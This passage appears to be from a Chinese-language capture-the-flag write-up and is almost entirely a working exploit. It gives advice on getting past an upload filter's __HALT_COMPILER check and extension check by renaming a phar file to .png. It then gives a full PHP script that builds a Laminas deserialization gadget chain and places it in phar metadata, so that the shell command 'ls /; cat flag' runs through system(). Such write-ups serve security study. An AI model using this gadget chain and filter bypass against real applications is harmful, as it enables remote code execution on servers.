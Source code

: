 ## 漏洞利用
需要注意的是在上传路由方法中需要绕过`__HALT_COMPILER`特征检测, 并且会对文件后缀名进行检测, 因此还需要把`phar`文件后缀改为`png`等.

```php
<?php
	namespace Laminas\Log {
		
		class Logger {
			
			protected $writers;
			function __construct(){
				$this->writers = [new \Laminas\Log\Writer\Mail()];
			}
		}
	}

	namespace Laminas\Log\Writer {
		
		abstract class AbstractWriter {}
		
		class Mail extends AbstractWriter {

			protected $eventsToMail = ["ls /; cat flag"];
			protected $subjectPrependText = null;
			protected $mail;
			function __construct(){
				$this->mail = new \Laminas\View\Renderer\PhpRenderer();
			}
		}
	}

	namespace Laminas\View\Renderer {

		class PhpRenderer {

			private $__helpers;
			function __construct() {

				$this->__helpers = new \Laminas\View\Resolver\TemplateMapResolver();
			}
		}
	}

	namespace Laminas\View\Resolver{

		class TemplateMapResolver{

			protected $map = ["setBody"=>"system"];
		}
	}


	namespace {

	    $phar = new Phar("phar.phar");
	    $phar->startBuffering();
	    $phar->setStub("<?php __HALT_COMPILER(); ?>");
	    $object = new \Laminas\Log\Logger();
	    $phar->setMetadata($object);
	    $phar->addFromString("h3rmesk1t.txt", "h3rmesk1t");
	    $phar->stopBuffering();
	}
?>
```
